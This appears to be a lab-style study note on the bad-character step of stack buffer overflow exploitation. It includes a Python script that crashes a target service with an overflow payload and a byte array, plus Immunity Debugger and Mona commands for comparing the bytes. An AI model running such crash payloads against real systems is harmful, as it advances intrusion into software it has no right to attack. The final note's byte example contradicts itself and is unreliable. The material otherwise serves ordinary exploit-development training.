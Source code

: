 To find bad characters we gotta send a bunch of different bytes characters, to do that with python we do 

```python
import socket

ip, port = "10.10.10.10", 9999 # Change the ip and port
offset = 0  # change this with what you got from step 2
prefix = b"" # change this if necessary and make sure theres a space at the end.
badchars = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

try:
	s = socket.socket()
	s.connect((ip, port))
	s.send(prefix + b"A"*offset + b"B"*4 + badchars)
except:
	print(f"Something went wrong")

s.close()
```

After executing it and crashing the program, right click the ESP in the top right with Immunity debugger and press "Follow in dump" that should take you somewhere in the bottom left and you see the characters are in order like 01 02 03 04 etc. and the pattern should be similar to the bad chars list above if something is out of order like 01 02 03 04 05 B0, that B0 is very out of place cuz there should be 06 instead, that means 06 is a bad characters cause it wont show there. Add that to a note somewhere and continue doing that until FF

## Mona automation
This process can be automated with [[Mona]], you have to type these command at the bottom of Immunity debugger

```
!mona config -set workingfolder c:\mona
!mona bytearray -cpb "\x00"
!mona compare -f c:\mona\bytearray.bin -a <ESP>
```

That will compare the bytearray.bin with all the bytes we generated.

# Note
1. \x00 is always a bad characters so always remeber to include that
2. Bad characters can infect the next byte so like 00 01 B4 B4, in that example 03 and 04 are bad characters but in reality only 03 is a bad character, it just infected the one in front of it, so we are not gonna include 04 and only 03.